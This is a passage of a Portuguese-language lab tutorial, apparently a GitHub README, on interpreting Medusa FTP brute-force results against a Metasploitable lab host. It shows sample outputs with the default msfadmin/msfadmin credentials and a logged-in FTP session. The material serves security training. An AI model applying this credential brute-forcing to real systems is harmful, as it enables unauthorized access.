 ## 🔍 Passo 3: Interpretação dos Resultados

### Possíveis Saídas do Medusa

#### ✅ **Sucesso**

```bash
ACCOUNT FOUND: [ftp] Host: 192.168.56.101 User: msfadmin Password: msfadmin [SUCCESS]
```

#### ❌ **Falha Completa**

```bash
ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1) User: root (4 of 4) Password: msfadmin (4 of 4)
ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1) User: root (4 of 4) Password: msfadmin (4 of 4) [FAILED]
```

#### ⚠️ **Bloqueio/Detecção**

```bash
ERROR: connect (Connection refused)
```

---

## 🧪 Passo 4: Validação do Acesso Obtido

### Comando de Teste

```bash
ftp 192.168.56.101
```

### 🔄 Processo de Validação

1. **Conectar ao serviço FTP**
2. **Inserir credenciais encontradas**
3. **Verificar acesso e permissões**
4. **Explorar diretórios disponíveis**

### 📝 Exemplo de Sessão Bem-sucedida

```bash
ftp> open 192.168.56.101
Connected to 192.168.56.101.
220 (vsFTPd 2.3.4)
Name (192.168.56.101:kali): msfadmin
331 Please specify the password.
Password: msfadmin
230 Login successful.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxrwx    2 0        65534        4096 Mar 17  2010 vulnerable
226 Directory send OK.
ftp>
```

---